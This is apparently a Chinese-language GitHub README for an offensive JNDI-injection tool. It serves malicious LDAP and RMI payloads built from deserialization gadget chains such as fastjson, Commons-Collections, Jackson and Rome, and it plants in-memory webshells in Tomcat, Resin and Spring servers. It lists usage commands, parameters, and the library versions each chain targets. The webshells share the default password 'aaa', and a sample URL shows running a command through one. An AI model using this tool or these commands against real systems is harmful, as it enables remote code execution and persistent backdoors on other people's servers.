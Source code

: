 ## LDAPDeserialize-tool
一款针对高版本JDK的JNDI注入工具

### 依赖环境
JDK8

### 功能描述
#### 使用简述
```shell
反序列化文件方式：java -jar LDAPDeserialize-tool.jar -p 1389 -f D:/1.ser
反序列化base64方式：java -jar LDAPDeserialize-tool.jar -p 1389 -b base64数据
低版本动态请求class：
java -jar LDAPDeserialize-tool.jar -C http://127.0.0.1:8000/1.class
内置反序列化链：
java -jar LDAPDeserialize-tool.jar -p 1389 -g fastjson -c "calc"
RMI反序列化打法：
java -jar LDAPDeserialize-tool.jar -p 1389 -g fastjson -c "calc" -rmi
RMI内置利用链遍历：
java -jar LDAPDeserialize-tool.jar -g execAll -c "calc" -rmi -ip 当前服务器公网ip
内存马注入：
java -jar LDAPDeserialize-tool.jar -p 1389 -g fastjson -c TomcatListenerBehinderByLei
```
#### 参数说明
```shell
 -b,--base64 <arg>   反序列化打法：序列化数据base64编码值
 -C,--class <arg>    低版本动态请求class实例化方式：class文件请求URL（需自己生成class文件，开启web服务）
 -c,--cmd <arg>      使用内置反序列化链时所要执行的命令，或指定所要打的内存马类型（存在空格时请使用双引号包裹）
 -f,--file <arg>     反序列化打法：序列化数据文件路径
 -g,--gadget <arg>   内置反序列化链
 -ip,--ip <arg>      VPS-IP地址
 -p,--port <arg>     监听的端口，默认1389
 -path <arg>         内存马路径,格式为/xxx,不传入会生成一个随机地址,listener型内存马不需要
 -rmi,--rmi          rmi反序列化打法，可打JDK20+，只支持内置链打法
```
#### 支持说明
```
【目前支持的链,*号为支持JDK20+的链】
fastjson (依赖：1.2.49-1.2.83)

* CC6 (依赖：<= commons-collections 3.2.1)
CC4 (依赖：commons-collections4 4.0)
jackson (依赖：jackson-databind 2.10.0及以上版本)
jackson2 (稳定版，依赖：jackson-databind 2.10.0及以上版本 && <= spring aop 5.x)
groovy (依赖：groovy 2.3.9)
hibernate (依赖：hibernate 5.x && spring-context &&
                           reactor-core)[hibernate为ClassPathXmlApplication
                           Context执行，'-c'后跟上xml文件WEB地址]
CB192 (依赖：commons-beanutils 1.9.2 && commons-logging 1.2)
CB183 (依赖：commons-beanutils 1.8.3 && commons-logging 1.2)
rome (依赖：Rome 1.0)
execAll (利用链遍历，跑完一次要重新开脚本，依赖：tomcat)

【目前支持的内存马类型】
目前所有内存马默认密码均为：aaa
【Tomcat目前兼容Tomcat8,9】
TomcatListenerBehinder (冰蝎4.1默认马子)
TomcatListenerBehinderByLei (tomcat listener冰蝎马，打入改版的马子，需用改版的冰蝎ByLei)
TomcatListenerCMD (tomcat listener cmd马，http://ip:port/xx/zz?pass=aaa&cmd=whoami)
ResinListenerCMD (Resin listener型CMD内存马)
ResinListenerBehinder (Resin listener型冰蝎4.1内存马)
SpringInterceptorBehinder (Spring Interceptor型冰蝎4.1内存马)
```

### 使用演示
#### 使用指定反序列化文件

使用ysoserial.jar生成序列化文件1.ser，读取该文件启动，客户端访问后将执行反序列化操作

![截图](image/cc370864ddff7bce2c17cdf15b6b2df3.png)

#### 使用指定反序列化数据

使用base64编码后的序列化数据启动

![截图](image/10b93a10ec217bb82424756bc05c413b.png)

#### 使用内置反序列化链

![截图](image/99b85665c9c03cedeb281f5729c6d945.png)

#### 使用RMI反序列化方式

当前RMI反序列化方式仅支持内置的反序列化链

![截图](image/e49210b2672c44f1ba10bd784bbefc56.png)

#### 内存马注入
##### CMD马

![截图](image/Snipaste_2024-08-06_17-10-12.png)

![截图](image/Snipaste_2024-08-06_17-14-38.png)


##### 冰蝎马

![截图](image/image-20240806154150477.png)

![截图](image/Snipaste_2024-08-06_15-43-51.png)

![截图](image/Snipaste_2024-08-06_15-45-48.png)
###### 指定路径
![](image/Snipaste_2024-08-28_23-26-00.png)
![](image/Snipaste_2024-08-28_23-28-04.png)

### TODO
- 增加内存马类型及兼容性
- 增加注入Suo5内存马

### Star

[![恒星历史图表](https://api.star-history.com/svg?repos=C3P0ooo/LDAPDeserialize-tool&type=Timeline)](https://star-history.com/#C3P0ooo/LDAPDeserialize-tool&Timeline)

![GitHub lerna version](https://img.shields.io/github/lerna-json/v/:user/:repo)
